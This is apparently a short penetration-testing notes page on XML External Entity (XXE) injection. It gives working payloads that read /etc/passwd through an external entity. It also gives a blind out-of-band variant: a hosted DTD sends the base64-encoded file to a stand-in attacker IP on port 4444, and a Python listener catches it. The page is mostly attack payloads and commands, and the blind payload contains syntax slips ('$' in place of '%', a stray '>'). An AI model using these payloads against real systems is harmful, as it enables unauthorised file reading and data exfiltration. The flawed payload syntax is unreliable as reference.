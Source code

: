 ```yaml
---
title: Notes | XXE
author: Zeropio
date: 2022-04-25
categories: [Notes, Web]
tags: [xxe]
permalink: /notes/web/xxe
---
```



# Normal
XXE is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data.

We can make a XML file like:
```xml
<?xml  version="1.0" encoding="utf-8"?>
<!DOCTYPE replace [<!ENTITY xxe SYSTEM  "file:///etc/passwd" >]>
<author>&xxe;</author>
```
##### We can use many **wrappers** instead of *file:*. 

# Blind
If we don't have any output from the page we can make this:

- First create a XML file in our machine, which will execute the code.
```xml
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd" >
<!ENTITY % poc "<!ENTITY &#37; xxe SYSTEM 'http://yourip:4444/value=?%file;'>" >
```

- Start a http.server
```console
> python3 -m http.server 4444
```

- Upload a similar file to the victim:
```xml
<?xml  version="1.0" encoding="utf-8"?>
<!DOCTYPE XXE [
	<!ENTITY % remote SYSTEM "http://attackerIp:4444/data.xml" >
	%remote;
	$poc;
	$xxe;
>]>
```
